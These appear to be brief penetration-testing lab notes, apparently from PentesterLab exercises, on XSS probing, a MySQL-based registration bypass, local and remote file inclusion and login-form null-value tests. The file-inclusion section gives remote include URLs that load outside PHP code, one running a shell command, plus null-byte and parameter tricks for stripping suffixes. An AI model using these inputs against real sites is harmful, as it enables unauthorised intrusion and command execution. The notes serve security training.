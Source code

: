 XSS {{
1234'"<t>
//try this payload instead cause it is easier to see encodings and stuff
//then iterate
//look at source
//don't fuzz blindly

}}
Registration {{
Try with a capital letter of spaces afterward because mysql will lowercase and remove trailing spaces but code may not
}}
File Include {{
http://assets.pentesterlab.com/test_include.txt
//tests phpinfo

http://assets.pentesterlab.com/test_include_system.txt
//&c=uname+-a      shows system command


For LFI, you can get rid of the suffix using a NULL BYTE. For RFI, you can get rid of the suffix, by adding &blah= or ?blah= depending on your URL
PHP now correctly handles paths and they cannot be poisoned using a NULL BYTE, as they used to.
}}
login forms, check null values ( remove parameters )
